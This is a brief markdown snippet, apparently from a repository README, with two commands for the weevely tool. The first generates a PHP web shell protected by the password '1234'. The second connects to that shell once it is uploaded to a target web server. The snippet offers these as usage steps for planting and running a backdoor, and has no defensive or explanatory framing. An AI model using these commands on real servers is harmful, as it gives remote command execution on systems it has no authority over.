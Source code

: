 #### To generate php file
```
weevely generate 1234 /root/shell.php
```

```
weevely <uploaded_file_url> 1234
```
